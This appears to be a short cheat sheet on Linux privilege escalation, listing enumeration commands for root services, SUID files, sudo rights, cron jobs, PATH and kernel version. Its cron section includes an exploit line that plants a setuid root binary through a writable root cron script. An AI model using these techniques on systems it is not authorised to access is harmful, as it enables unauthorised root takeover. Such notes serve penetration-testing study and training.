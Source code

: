 = Privilege Escalation

== Summary
`$ netstat -antup`
`$ ps -aux | grep root`
`$ find / -perm -u=s -type f 2>/dev/null`
`$ sudo -l`
`$ ls -la /etc/cron.d`
`$ echo $PATH`
`$ uname -a`


== Root Services Exploit
Certain services are run as root when they shouldn't be. These can be either database or mail/web servers.

=== Enumeration
`$ netstat -antup` to find list of open ports
`$ ps -aux | grep root` to find list of processes running as root


== SUID executable
`setuid` is a flag that allows users to run an executable with the permission of the file owner. If the file owner is root,
then the executable can be used to achieve root. Useful when executables is file editor/compiler/interpreter

=== Enumeration
`$ find / -perm -u=s -type f 2>/dev/null` to find list of executables with suid bit set


== Sudo rights
Allowing certain executables as root. For example, `find` can be used to search for logs, but also start a shell

=== Enumeration
`$ sudo -l` list commands user can run in sudo


== Root cron jobs
The goal is to find cron jobs that execute world-writable scripts. 
We can then create a shell-spawn executable, and elevate its privileges in said script.

=== Enumeration
`$ ls -la /etc/cron.d` lists cron jobs
`$ find / -perm -2 -type f 2>/dev/null` finds world-writable files. We want to find scripts called from cron jobs

=== Exploit
`$ echo "chown root:root /tmp/rootme; chmod u+s /tmp/rootme;" >/usr/local/sbin/cron-logrotate.sh`


== . in path
Root users might add `.` to their path to save typing `./`

=== Enumeration
`$ echo ${PATH}`

=== Exploit
Create an executable that contains a shell-spawning script, and wrap it around a common tool.
Then, trick root user to use said tool


== Kernel Exploit Attack
We need:
- A vulnerable kernel
- A matching exploit
- Ability to transfer exploit onto the target
- Ability to execute exploit onto the target

=== Enumeration
`uname -a` gets kernel version

=== Exploit
`$ searchsploit Linux Kernel 2.6.24` searches for exploits of that version
